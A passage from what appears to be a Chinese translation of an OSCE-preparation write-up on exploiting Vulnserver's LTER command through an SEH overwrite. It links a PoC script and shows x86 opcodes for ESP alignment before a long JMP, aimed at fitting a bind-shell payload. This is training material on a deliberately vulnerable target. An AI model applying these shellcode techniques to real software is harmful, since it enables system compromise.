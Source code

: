 ![](img/4ba1d53b82ccd75d0facf20a3baba130.png)

在第二阶段编码短 JMP 之后

*   更新了第二阶段外壳代码 PoC 脚本:[第二阶段 _lter.py](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/LTER%20-%20SEH%20Overwrite/2nd-stage_lter.py)

## #3 阶段外壳代码—长 JMP

不幸的是，我们仍然没有足够的空间来放置我们的有效载荷，比如 bind shell。有了这个新获得的 67 字节缓冲区，我们这次将引入一个长 JMP 来规避空间限制。步骤将非常类似于 **#第二阶段外壳代码(短 JMP)** 。

首先，让我们再次对齐`ESP`以将`ESP`指向缓冲区的底部，我们解码后的长 JMP 将放在那里。

```
**### ESP Alignment (Long JMP)**\x54             # PUSH ESP 
\x58             # POP EAX
\x2C\x38         # ADD AL,0x38 *(0187FFF9 — 0187FFC1 = 0x39)*
\x50             # PUSH EAX
\x5C             # POP ESP
```

